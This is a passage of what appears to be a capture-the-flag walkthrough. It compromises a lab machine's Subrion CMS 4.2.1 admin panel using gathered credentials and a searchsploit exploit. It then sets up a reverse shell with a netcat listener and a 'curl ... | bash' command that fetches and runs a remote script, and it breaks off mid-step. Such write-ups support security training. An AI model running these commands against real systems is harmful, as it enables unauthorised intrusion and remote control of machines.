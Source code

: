 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694252898/7691c708-13af-4ce4-b4d5-c6aca067b15d.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694255875/6d3ecb61-de8f-497f-9da4-1527035af329.png align="center")

We discovered an admin panel. Let's plugin the credentials we gathered from our earlier recon.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694264864/21238113-44e3-4617-890d-4a25ff458c25.png align="center")

It looks like the CMS version is 4.2.1. Searchsploit has an exploit for this.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694275833/da984a89-a4e3-4efa-9ab4-ed5649f02085.png align="center")

Download by typing:

```bash
searchsploit -m php/webapps/49876.py
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694287456/77f97444-bb4e-4a4f-8be1-7d33a046880e.png align="center")

### Step 6: Exploit

Exploit:

```bash
python3 49876.py -u http://10.10.185.192/subrion/panel/ --user=admin --passw=********
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694314148/a405ae3e-fe79-4d21-a3c1-279eb21aabe4.jpeg align="center")

Nice! Now, let's get a better stable shell on here. First, let's start a Python server where our reverse shell is located:

```bash
python3 -m http.server 8000
```

Then start a netcat listener to catch the shell:

```bash
rlwrap nc -lvnp 1337
```

Finally, pull the script onto the victim box:

```bash
curl http://10.10.185.192:8000/shell.sh | bash
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694355516/65c08515-cddf-4fe8-9a4b-d648aec105b7.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694358359/109c8b8e-c60c-45a1-b6c7-c81d232cc975.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694361454/ce7b0205-5c69-49ac-be96-ac377ad93b59.png align="center")

Let's upgrade it:
